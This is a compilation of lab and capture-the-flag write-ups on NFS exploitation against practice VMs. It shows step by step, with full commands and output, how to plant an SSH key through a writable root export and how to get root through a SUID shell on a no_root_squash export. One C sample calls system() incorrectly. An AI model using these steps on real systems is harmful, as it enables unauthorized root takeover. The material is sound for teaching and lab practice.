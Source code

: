 # SCENARIO: got NFS:
### Attack NFS and get root login

During the Vulnerability Scan of the 'Metasploitable 2' virtual machine in a previous post, we found the following misconfiguration in NFS Server.

The Root File System is exported in read/write mode.

```

root@kali:~# showmount -e 192.168.122.73
Export list for 192.168.122.73:/ *
```


Getting access to a system with a writeable filesystem like this is trivial. To do so (and because SSH is running), we will generate a new SSH key on our attacking system, mount the NFS export, and add our key to the root user account's authorized_keys file:

```

root@kali:~# mount -o nolock 192.168.122.73:/ /mnt
```

```

root@kali:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
```

```

root@kali:~# cat .ssh/id_rsa.pub >> /mnt/root/.ssh/authorized_keys
```

```

root@kali:~# umount /mnt

```
```

root@kali:~# ssh 192.168.122.73
Last login: Mon May 25 07:46:57 2015 from :0.0 Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
root@metasploitable:~#
```



-------------------------------------------------------------
## EXAMPLE 2 : (ORCUS)



proceed to list the mounts available to us on the target.
```
root@kali:~# showmount -e 192.168.110.102
Export list for 192.168.110.102:
/tmp *
```
Time to mount this on our testing machine.
```
root@kali:~# mkdir /tmp/orcus
root@kali:~# mount -t nfs 192.168.110.102:/tmp /tmp/orcus
root@kali:~# ls -lah /tmp/orcus
total 36K
drwxrwxrwt 9 root root 4.0K Mar 16 17:25 .
drwxrwxrwt 9 root root 4.0K Mar 20 09:25 ..
drwxrwxrwt 2 root root 4.0K Mar 16 17:23 .font-unix
drwxrwxrwt 2 root root 4.0K Mar 16 17:23 .ICE-unix
drwx------ 3 root root 4.0K Mar 16 17:23 systemd-private-1f6894c2997b4017a4f2b5ec650a3234-dovecot.service-Qos2Dc
drwx------ 3 root root 4.0K Mar 16 17:23 systemd-private-1f6894c2997b4017a4f2b5ec650a3234-systemd-timesyncd.service-IslOZP
drwxrwxrwt 2 root root 4.0K Mar 16 17:23 .Test-unix
drwxrwxrwt 2 root root 4.0K Mar 16 17:23 .X11-unix
drwxrwxrwt 2 root root 4.0K Mar 16 17:23 .XIM-unix
```
So - we've mounted the /tmp directory on the target. Who is nfs running as on the target?
```
ps aux | grep nfs
root      1402  0.0  0.0      0     0 ?        S<   09:34   0:00 [nfsd4_callbacks]
root      1405  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1407  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1408  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1409  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1410  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1411  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1415  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
root      1416  0.0  0.0      0     0 ?        S    09:34   0:00 [nfsd]
www-data  2873  0.0  0.1   3028   848 ?        S    10:38   0:00 grep nfs
```
And what is our nfs config?
```
cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#        to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/tmp *(rw,no_root_squash)
```
Awesome - so we can chmod and chown to our hearts content.

I upload a very simple program that will set our gid and uid, and execute /bin/bash to /tmp/shell.c
```
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
   setgid(0);
   setuid(0);
   system("/bin/bash", argv, envp);
   return 0;
}
```
I proceed to compile the program.
```
gcc -o shell shell.c
shell.c:3:1: warning: return type defaults to 'int' [-Wimplicit-int]
main( int argc, char ** argv, char ** envp )
^
shell.c: In function 'main':
shell.c:7:2: warning: implicit declaration of function 'system' [-Wimplicit-function-declaration]
 system("/bin/bash", argv, envp);
 ^
```
From our testing machine, and via the nfs mount, I chown the shell binary to root, and set the suid and sgid bits.
```
root@kali:/tmp/orcus# chown root:root shell
root@kali:/tmp/orcus# chmod +s shell
```
Finally, I execute the program on the target.
```
ls -lah
total 48K
drwxrwxrwt  9 root     root     4.0K Mar 16 10:40 .
drwxr-xr-x 24 root     root     4.0K Oct 30 23:05 ..
drwxrwxrwt  2 root     root     4.0K Mar 16 09:34 .ICE-unix
drwxrwxrwt  2 root     root     4.0K Mar 16 09:34 .Test-unix
drwxrwxrwt  2 root     root     4.0K Mar 16 09:34 .X11-unix
drwxrwxrwt  2 root     root     4.0K Mar 16 09:34 .XIM-unix
drwxrwxrwt  2 root     root     4.0K Mar 16 09:34 .font-unix
-rwsr-sr-x  1 root     root     7.3K Mar 16 10:40 shell
-rw-r--r--  1 www-data www-data  139 Mar 16 10:40 shell.c
drwx------  3 root     root     4.0K Mar 16 09:34 systemd-private-4fdc5fc8b7114fac9e9b67df64887946-dovecot.service-oJ1cF2
drwx------  3 root     root     4.0K Mar 16 09:34 systemd-private-4fdc5fc8b7114fac9e9b67df64887946-systemd-timesyncd.service-YXlVEN
./shell
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
Great stuff - let's grab our last flag.



## 3
### Port 111 — rpcbind 2–4 (RPC #100000)


As RPC is enabled lets run rpcinfo
```
root@kali:~# rpcinfo 192.168.1.39
```

As NFS is enabled lets see the mounts that are exported by the machine.
```
root@kali:/tmp# showmount --exports 192.168.1.39
Export list for 192.168.1.39:
/tmp *
```
Game Plan is to upload a SUID C Shell for /bin/bash to /tmp/ using our meterpreter session. Then mount /tmp to our local machine. Change the owner of SUID C Shell to root and assign sticky bit to it.
```

int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}
```

In Meterpreter
```

meterpreter > upload /root/Desktop/B2R/root_shell.c .
meterpreter > shell
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Orcus:/tmp$ gcc root_shell.c -o root_shell
gcc root_shell.c -o root_shell

root_shell.c: In function 'main':
root_shell.c:2:8: warning: implicit declaration of function 'setresuid' [-Wimplicit-function-declaration]
setresuid(0, 0, 0);
^
root_shell.c:3:8: warning: implicit declaration of function 'system' [-Wimplicit-function-declaration]
system("/bin/bash");
^
www-data@Orcus:/tmp$
```

In Kali:
```

root@kali:/tmp# showmount --exports 192.168.1.39
Export list for 192.168.1.39:
/tmp *
root@kali:/tmp# mkdir /tmp/nfs
root@kali:/tmp# mount -t nfs 192.168.1.39:/tmp /tmp/nfs
root@kali:/tmp# cd /tmp/nfs/
root@kali:/tmp/nfs# ls
root_shell    systemd-private-c53749e4f3cb470f818a594058f9877a-dovecot.service-l8pWgR
root_shell.c  systemd-private-c53749e4f3cb470f818a594058f9877a-systemd-timesyncd.service-bvrpCD
root@kali:/tmp/nfs# ./root_shell
root@kali:/tmp/nfs# chown root:root root_shell
root@kali:/tmp/nfs# chmod 4777 root_shell
root@kali:/tmp/nfs# ls -la
total 56
drwxrwxrwt 9 root     root      4096 May 18 18:18 .
drwxrwxrwt 8 root     root     12288 May 18 18:22 ..
drwxrwxrwt 2 root     root      4096 May 18 11:05 .font-unix
drwxrwxrwt 2 root     root      4096 May 18 11:05 .ICE-unix
-rwsrwxrwx 1 root     root      7392 May 18 18:18 root_shell
-rw-r--r-- 1 www-data www-data    73 May 18 18:16 root_shell.c
drwx------ 3 root     root      4096 May 18 16:11 systemd-private-c53749e4f3cb470f818a594058f9877a-dovecot.service-l8pWgR
drwx------ 3 root     root      4096 May 18 11:05 systemd-private-c53749e4f3cb470f818a594058f9877a-systemd-timesyncd.service-bvrpCD
drwxrwxrwt 2 root     root      4096 May 18 11:05 .Test-unix
drwxrwxrwt 2 root     root      4096 May 18 11:05 .X11-unix
drwxrwxrwt 2 root     root      4096 May 18 11:05 .XIM-unix
root@kali:/tmp/nfs#
```
Getting root
```

www-data@Orcus:/tmp$ ./root_shell
./root_shell
root@Orcus:/tmp# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
